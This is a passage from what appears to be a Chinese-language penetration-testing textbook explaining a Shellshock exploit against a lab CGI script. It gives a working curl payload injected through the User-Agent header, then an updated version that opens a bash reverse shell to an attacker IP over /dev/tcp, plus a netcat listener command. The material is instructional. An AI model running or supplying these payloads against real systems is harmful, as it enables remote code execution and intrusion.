 这是命令输出：

![图 6.10 – Shellshock 漏洞利用的输出](img/B22229_06_10.jpg)

图 6.10 – Shellshock 漏洞利用的输出

这是有效载荷的解析：

+   **curl** : 这是一个用于发起 HTTP 请求的命令行工具。

+   **-A "() { ignored; };** : **-A**选项设置 HTTP 请求的用户代理字符串。在这种情况下，它被设置为一个精心构造的函数定义，利用 Shellshock 漏洞。

+   **echo Content-Type: text/plain ; echo ; echo ;** : 这些**echo**命令用于构建有效的 HTTP 响应头和正文。它们确保响应被视为纯文本，并包含必要的换行符。

+   **/usr/bin/id** : 这是将在目标系统上执行的实际命令。在此情况下，它是**id**命令，用于检索当前用户的信息。

+   **http://10.2.10.1:8080/victim.cgi** : 这是目标系统上易受攻击的**公共网关接口**（**CGI**）脚本的 URL。

当此有效载荷被发送到易受攻击的 CGI 脚本时，用户代理字符串中的精心构造的函数定义会作为环境变量传递给脚本。Bash，通常用于执行 CGI 脚本，解析环境变量并执行注入的命令（**/usr/bin/id**）。然后，命令的输出将包含在 HTTP 响应中，允许攻击者获取结果。

在我们之前用来利用 Shellshock 的**curl**命令中，让我们将命令替换为一个可以使易受攻击系统连接到我们 IP 地址的反向 Shell 命令。

这是我们更新后的利用代码：

```
 $ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -l > /dev/tcp/10.2.10.99/4444 0<&1 2>&1" http://10.2.10.1:8080/victim.cgi
```

这个 Bash 命令打开一个反向 Shell 连接：

+   **/bin/bash -l** : 这会启动一个新的 Bash Shell 会话，作为登录 Shell。

+   **> /dev/tcp/10.2.10.99/4444** : 这将 Shell 的标准输出（**STDOUT**）重定向到一个与**10.2.10.99** IP 地址和端口**4444**的 TCP 连接。一旦你知道 Linux 中所有内容都是文件或在文件系统中出现时，这个部分就能更容易理解了。

+   **0<&1**：将标准输入（**STDIN**）重定向到**STDOUT**，使从远程主机发送的命令能够被 Shell 执行。

+   **2>&1**：将标准错误（**STDERR**）与**STDOUT**合并，因此所有的 Shell 输出和错误信息都会发送到远程主机。

在执行漏洞利用之前，我们必须准备好通过以下命令捕获反向 Shell 连接：

```
 $ nc -nlvp 4444
```

这是解释：

+   **nc**：这是**Netcat**命令

+   下面是**-** **nlvp 4444**参数的分解

    +   **n**：仅使用数字 IP 地址，无 DNS

    +   **l**：监听入站连接
